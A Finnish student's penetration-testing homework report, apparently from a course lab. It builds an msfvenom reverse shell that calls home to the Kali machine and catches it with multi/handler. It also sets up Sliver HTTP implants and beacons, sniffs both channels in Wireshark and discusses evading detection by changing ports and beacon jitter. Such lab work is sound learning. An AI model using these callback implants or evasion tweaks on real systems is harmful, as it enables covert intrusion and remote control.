## a) Venom. Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla.

Käynnistin metasploitin samalla conffilla kuin h2 kotitehtävässä

Metasploitable ip: 192.168.171.4



Kali vm: 192.168.171.3



Katsoin msfvenomin man sivulta syntaksia

      man msfvenom

Vaikuttaa, että siihen ainakin tarvitsee nämä flagit

msfvenom -p  -f  -o 

-p: payload, payloading määritys tässä meterpreterin reverse_tcp, lisäksi pitää määrittää lähettäjäkoneen(LHOST) iposoite ja portti johon se koittaa soittaa takaisin (LPORT), metasploit oletus on portti 4444
-o: luodun payloadin tiedoston nimin

Kun laitoin nämä yhteen, tuli tällainen 

 

Nyt payload oli valmiina, se pitää sitten ottaa vastaan tehtävässä pyydetyllä multi/handler -työkalulla. 

Se oli metasploitablessa joten avasin uuden terminaali-ikkunan ja  käynnistin sen komennolla

      msfconsole

Laitoin siihen samat asetukset kuin msfvenomiin



Viimeiseksi piti vielä laittaa kalilla luotu payload metasploitable koneelle. Tässäkin on varmasti monta tapaa, ensiksi tuli mieleen tehdä weppipalvelin pythonilla ja ladata se wgetillä

Latasin tiedoston wget:llä ja annoin sille ajo-oikeudet



Ajoin sen 

    ./shellreverse.elf

Vaihdoin takasin kalille



msf sessiossa oli käynnistynyt meterpreter shelli kalin (192.168.171.3) ja metasploitablen (192.168.171.4) välillä.

Shellissä voi suorittaa meterpreterin komentoja esim.



## b) Snif venom! Tarkastele ja analysoi msfvenomin muodostamaa reverse shell -yhteyttä. Käytä snifferiä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

Menin wiresharkkiin ja aloin kuuntelemaan eth1. 



Paketit numerosta 10-17 ilmestyi kuin ajoin sysinfo uudestaan meterpretershellissä. Siinä näkyy selkeästi että multi handler kuuntelee liikennettä portissa 4444 ja liikennettä kulkee koneiden välillä. 

Meterpreter shelliyhteys on tästä helppo huomata, koska kuuntelija käyttää metasploitin oletusporttia(4444) ja metasploitable käyttää outoa porttia 42448.

Tunnistautumista voi vaikeuttaa vaihtamalla porttinumerot ei niin ilmiselväksi. Ehkä uhkatoimija voisi myös sammuttaa luotetun mutta käyttämättömän palvelun portin ja sen kautta avata session? Tästä en ole ihan niin varma ja en nykyisillä taidoilla keksi miten sitä voisi muuten vaikeuttaa

## c) Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä.

En tiedä mitään sliveristä joten katsoin ensin kali documentaation: https://www.kali.org/tools/sliver/

Siinä on kaksi versiota: client ja server

Koitin käynnistää server version, ei löytänyt, joten asensin sen



Katsoin tarkemmin miten sliverillä voidaan tehdä HTTP asioita: https://sliver.sh/docs/?name=HTTPS+C2

Sliverissä käytetään implantteja, joita voi luoda generate komennolla. Sille pitää antaa samantyyyliset spesifioinnit kuin msfvenom esim käyttöjärjestelmä ja arkkitehtuuri

Asennuksen jälkeen sliver-server lähti käyntiin



Laitoin sliverissä kuuntelijan kuuntelemaan localhostia

            http  --lhost  localhost



            

Lähdin generoimaan implanttia. Implantti sisältää tiedon mihin uhrikone soittaa takaisin

      
      
      generate --http localhost --os linux --arch amd64 

generate: luo implantin

--http localhost: yhteyden tyyppi ja osoite

-os linux: Käyttöjärjestelmän tyyppi

--arch amd64: Prosessorin arkkitehtuuri



Siirsin kansiion, annoin ajo oikeudet ja ajoin 



Session avautui ja päässin katsomaan hakemiston sisältöä



Komennolla sessions myös näkyy, että yhteys on elosssa ja tapahtuu portilla 51064

## d) Sniff Sliver! Tarkastele Sliverin http-yhteyttä snifferillä. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa?

Avasin taas wiresharkin ja kuuntelin liikennettä 



Liikenne on oudon näköistä, mutta ei ainakaan niin epäilyttävää kuin msfvenom oletusporttineen.

Ensi silmäyksellä se ei näytä hälyyttävältä, tiedän kyllä että en tehnyt noita hakuja. Jos liikennettä olisi enemmän niin se voisi jäädä helposti huomaamatta. 

Minulle silmiinpistävintä ovat toistuvat koodi 204 no content found, koska omasta kokemuksestani ne ovat aika harvinaisia.

Jos filtteröin sen perusteella



Niitä on säännöllisesti joka kolmas paketti, joka on vähintään tutkimisen arvoista mistä ne tulee.

## e) Sliverillä voit muuttaa yhteyden ominaisuuksia. Kokeile ja näytä esimerkki. Muista todeta testein, että muutokset toimivat.

Tein uuden beaconin

            generate beacon --http localhost --os linux --seconds 60 --jitter 5

Menin katsomaan beacons

Siellä näkyi status. Siinä näkyy last check-in ja Next check-in. Näitä voi muokata ja ne luonnollisesti vaikuttavat siihen kuinka vaikeasti beacon on havaittavissa.



Antamalla komennon 

            reconfig -i 10s -j 2s



-i: tekee check-in ajassta 10 sekunnin välein
-j: lisää "jitteriä" eli tekee check-in ajasta +- 2 sekuntia eli se tekee sen 8-12 sekunnin välein.

Tämän voisi vielä havainnollistaa wiresharkilla nauhoittamalla minuutin liikennettä testaten ensiksi beaconilla 1 ja sitten 2

## f) Sliverillä voi tehdä monenlaista kohteessa, ruutukaappauksista alkaen. Näytä esimerkkejä toiminnoista.

Tein uuden implantin, koska kerkesin sulkemaan aikaisemman.

Sliverillä voi tehdä aika paljon samoja asioita kuin meterpreterillä.

Sesssion luonti ja muutama aloitus:

whoami:käyttäjätunnus

pwd: tulostaa nykyisen hakemiston.



netstat: Verkko yhteydet

ifconfig: verkkoliitännät ja niiden osoitteet.



Shellin käynnistäminen näyttää tämän hauskan varoituksen



Voin myös tehdä omalle koneella tiedoston



Ja ladata sen kohdekoneelle



## Lähteet

https://terokarvinen.com/tunkeutumistestaus

msfvenom man sivut

https://www.kali.org/tools/sliver/ 

https://sliver.sh/docs/?name=HTTPS+C2

